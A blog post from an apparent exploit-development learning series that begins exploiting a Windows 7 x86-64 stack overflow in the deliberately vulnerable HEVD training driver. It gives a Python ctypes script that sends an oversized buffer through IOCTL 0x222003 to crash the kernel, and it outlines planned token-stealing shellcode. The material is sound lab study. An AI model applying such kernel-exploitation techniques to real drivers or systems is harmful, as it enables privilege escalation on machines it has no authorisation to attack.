 ```yaml
---
layout: single
title: HEVD Exploits -- Windows 7 x86-64 Stack Overflow
date: 2020-01-21
classes: wide
header:
  teaser: /assets/images/avatar.jpg
tags:
  - Exploit Dev
  - Drivers
  - Windows
  - x86
  - x86-64
  - Shellcoding
  - Kernel Exploitation
  - Stack Overflow
---
```


## Introduction
Continuing on with the Windows exploit journey, it's time to start exploiting kernel-mode drivers and learning about writing exploits for ring 0. As I did with my OSCE prep, I'm mainly blogging my progress as a way for me to reinforce concepts and keep meticulous notes I can reference later on. I can't tell you how many times I've used my own blog as a reference for something I learned 3 months ago and had totally forgotten. 

This series will be me attempting to run through every exploit on the [Hacksys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver). **I will be using HEVD 2.0**. I can't even begin to explain how amazing a training tool like this is for those of us just starting out. There are a ton of good blog posts out there walking through various HEVD exploits. I recommend you read them all! I referenced them heavily as I tried to complete these exploits. Almost nothing I do or say in this blog will be new or my own thoughts/ideas/techniques. There were instances where I diverged from any strategies I saw employed in the blogposts out of necessity or me trying to do my own thing to learn more.

**This series will be light on tangential information such as:**
+ how drivers work, the different types, communication between userland, the kernel, and drivers, etc
+ how to install HEVD,
+ how to set up a lab environment
+ shellcode analysis

The reason for this is simple, the other blog posts do a much better job detailing this information than I could ever hope to. It feels silly writing this blog series in the first place knowing that there are far superior posts out there; I will not make it even more silly by shoddily explaining these things at a high-level in poorer fashion than those aforementioned posts. Those authors have way more experience than I do and far superior knowledge, I will let them do the explaining. :)

This post/series will instead focus on my experience trying to craft the actual exploits. 

I used the following blogs as references:
+ [@r0otki7's driver installation and lab setup blog post](https://rootkits.xyz/blog/2017/06/kernel-setting-up/),
+ [@r0otki7's x86 Windows 7 HEVD Stack Overflow post](https://rootkits.xyz/blog/2017/08/kernel-stack-overflow/),
+ [@33y0re's x86 Windows 7 HEVD Stack Overflow post](https://connormcgarr.github.io/Part-1-Kernel-Exploitation/),
+ [@\_xpn\_'s x64 Windows 10 HEVD Stack Overflow post](https://blog.xpnsec.com/hevd-stack-overflow/),
+ @sizzop's posts on the HEVD Stack Overflow [bug](https://sizzop.github.io/2016/07/06/kernel-hacking-with-hevd-part-2.html), [shellcode](https://sizzop.github.io/2016/07/07/kernel-hacking-with-hevd-part-3.html), and [exploit](https://sizzop.github.io/2016/07/08/kernel-hacking-with-hevd-part-4.html) respectively,
+ [@ctf_blahcat's x64 Windows 8.1 HEVD Stack Overflow post](https://blahcat.github.io/2017/08/18/first-exploit-in-windows-kernel-hevd/),
+ [@abatchy17's x86 and x64 Token Stealing Shellcode post](https://www.abatchy.com/2018/01/kernel-exploitation-2), and
+ [@hasherezade's HEVD post](https://hshrzd.wordpress.com/2017/06/05/starting-with-windows-kernel-exploitation-part-2/).

There are probably some I even forgot. Huge thanks to the blog authors, no way I could've finished these first two exploits without your help/wisdom. 

## Goal
We just knocked out the Win7 x86 exploit last post, let's get the Win7 x86-64 exploit completed now. We won't be going over most of the things we already covered in the last post. 

We will use a lot of the same approaches from last post with a few changes. Those changes will be:
+ Let's use `VirtualAlloc` instead of `VirtualProtect` this time,
+ We will need to change our script in certain places to work with 64 bit registers,
+ A new token-stealing shellcode provided by @abatchy17,
+ New kernel execution restoration shellcode, and
+ A new `ctypes` function or two.

Let's get started.

## Getting a 64-bit Crash!
We will once again use the `0x222003` IOCTL to reach our desired function `TriggerStackOverflow`, and the `CreateFileA` API will look exactly the same. This will once again return a handle to our device driver. Let's use the handle to call `DeviceIoControl` and get a crash by sending a large buffer. 

To create the buffer, we will use the awesome `ctypes` function `create_string_buffer` which I learned from @sizzop's awesome blog posts on this subject. (In the last post we leaned heavily on @r0otki7, in this one, I leaned heavily on @sizzop.) 

We will start by sending a buffer of 3,000 `"A"`, just like last time and we should get a crash. Right now our code looks like this: 
```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *
import time

kernel32 = windll.kernel32

hevd = kernel32.CreateFileA(
        "\\\\.\\HackSysExtremeVulnerableDriver", 
        0xC0000000, 
        0, 
        None, 
        0x3, 
        0, 
        None)
    
if (not hevd) or (hevd == -1):
    print("[!] Failed to retrieve handle to device-driver with error-code: " + str(GetLastError()))
    sys.exit(1)
else:
    print("[*] Successfully retrieved handle to device-driver: " + str(hevd))

buf = create_string_buffer("A"*3000)

result = kernel32.DeviceIoControl(
    hevd,
    0x222003,
    addressof(buf),
    (len(buf)-1),
    None,
    0,
    byref(c_ulong()),
    None
)

if result != 0:
        print("[*] Sending payload to driver...")
else:
    print("[!] Unable to send payload to driver.")
    sys.exit(1)
```

A tricky thing here is that when you `create_string_buffer`, your buffer is null terminated. Meaning it's one byte longer than the length we specified. This one is 3001 bytes long. You'll notice in `DeviceIoControl`, we subtracted one from the length of the buffer we want to send for this reason. (Thank you HEVD devs for including debug statements that include the length of the User Buffer!)

Running this on the victim should get us a crash. 

![](/assets/images/AWE/stack.PNG)

You can see as we hit our breakpoint for `TriggerStackOverflow` and step through, we are about to hit a `ret` operation. So I took a look at the stack with the `k` command in WinDBG to see what address we would return to. You can see that the stack is full of our `A`s. We will definitely crash here since `0x4141414141414141` is not a valid address. 

![](/assets/images/AWE/crash64.PNG)

And as you can see, we crashed. 
